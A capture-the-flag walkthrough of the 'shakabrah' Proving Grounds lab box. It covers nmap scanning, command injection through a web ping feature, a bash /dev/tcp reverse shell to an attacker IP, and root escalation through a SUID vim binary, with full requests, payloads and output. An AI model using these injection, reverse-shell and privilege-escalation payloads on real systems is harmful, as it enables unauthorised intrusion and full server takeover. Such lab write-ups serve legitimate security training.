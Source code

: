 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds box.

# enumeration
Using `nmap` to identify the attack surface of the target server.

## nmap
```bash
$ nmap -Pn -p22,80 -sV 192.168.150.86
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 15:49 EST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 15:49 (0:00:06 remaining)
Nmap scan report for 192.168.150.86
Host is up (0.024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.79 seconds
```

## web server (port 80)
The website exposes a web interface with a command `ping` feature. This looks juicy to test for a potential `command execution` vulnerability.

---

# vulnerability
## command injection
### request
```http
GET /?host=;whoami HTTP/1.1
Host: 192.168.150.86
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.150.86/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
### response
```http
HTTP/1.1 200 OK
Date: Tue, 01 Feb 2022 20:50:43 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 52
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<body>

<pre>www-data
</pre>
</body>
</html>
```

> It worked! He now have command execution on the server.
{: .prompt-info }

---

# post exploitation
## establish reverse shell with `tty`
### reverse shell
#### start listener on attacker machine
```bash
$ nc -lvp 80          
listening on [any] 80 ...
```

#### trigger reverse shell on target
payload: ```bash -c 'bash -i >& /dev/tcp/192.168.49.150/80l 0>&1'```
```http
GET /?host=;bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.150/80l+0>%261' HTTP/1.1
Host: 192.168.150.86
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.150.86/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

#### catch connect from target
```bash
$ nc -lvp 80       
listening on [any] 80 ...
192.168.150.86: inverse host lookup failed: Unknown host
connect to [192.168.49.150] from (UNKNOWN) [192.168.150.86] 56586
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell
www-data@shakabrah:/var/www/html$ whoami
whoami
www-data
```

### make the `shell` more beautiful
```bash
www-data@shakabrah:/home/dylan$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@shakabrah:/home/dylan$ export TERM=xterm
export TERM=xterm
```

## get `root` access

Looking for files with the `SUID` flag and owned by `root`.

```bash
www-data@shakabrah:/home/dylan$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
 -exec ls -l {} \; 2> /dev/null -o -perm -g+s \) 
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 34816 Feb 27  2019 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /usr/bin/sudo
-rwxr-sr-x 1 root tty 14328 Jan 17  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwxr-sr-x 1 root mlocate 43088 Mar  1  2018 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 71816 Mar 22  2019 /usr/bin/chage
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwxr-sr-x 1 root crontab 39352 Nov 16  2017 /usr/bin/crontab
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwxr-sr-x 1 root ssh 362640 Mar  4  2019 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 2675336 Mar 18  2020 /usr/bin/vim.basic
-rwxr-sr-x 1 root tty 30800 Mar  5  2020 /usr/bin/wall
-rwxr-sr-x 1 root shadow 22808 Mar 22  2019 /usr/bin/expiry
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 100760 Nov 22  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 113528 Jul 10  2020 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 26696 Mar  5  2020 /bin/umount
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 43088 Mar  5  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
```

The `vim.basic` binary looks interesting.  
Having a look at [gtfobins](https://gtfobins.github.io/gtfobins/vim/#suid) reveals that we can exploit it to get `root` access.

```bash
www-data@shakabrah:/home/dylan$ /usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
# whoami
root
```

---

# accessing the flags
## first flag
```bash
# cd home
# ls
dylan
# cd dylan
# ls
local.txt
# cat local.txt
6******************************3
```

## second flag
```bash
# cd /root
# ls
proof.txt
# cat proof.txt
c******************************3
```

Pwned! <@:-)
